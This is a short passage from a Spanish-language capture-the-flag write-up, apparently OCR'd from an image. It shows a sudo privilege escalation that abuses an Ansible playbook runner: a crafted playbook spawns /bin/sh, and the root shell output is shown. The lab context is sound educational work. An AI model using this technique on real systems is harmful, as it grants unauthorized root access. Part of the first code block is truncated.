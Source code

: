 ```bash
connection: local

tasks:

- name: Generate template data

template:

src: /etc/template.j2

dest: /tmp/template.out

www-
```

podemos buscar en [CTFOBINS](https://gtfobins.github.io/gtfobins/ansible-playbook/) la manera de ocupar este binario para la escalacion de privilegios 

Al poder ejecutar Ansible Playbooks con permisos root y sin restricciones, podemos crear un playbook malicioso que ejecute un shell root:

``` bash
TF=$(mktemp)
cat << EOF > $TF
- hosts: localhost
  gather_facts: no
  tasks:
    - name: Ejecutar shell root
      shell: /bin/sh
      stdin_open: yes
      tty: yes
EOF
```
Una vez creado el archivo ejecutamos el binario

```bash
sudo /usr/local/bin/templater $TF
```

Resultado:
```bash
PLAY [localhost] ***************************************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [Ejecutar shell root] *****************************************************
# whoami
root
#

```

___
# Obtencion de banderas
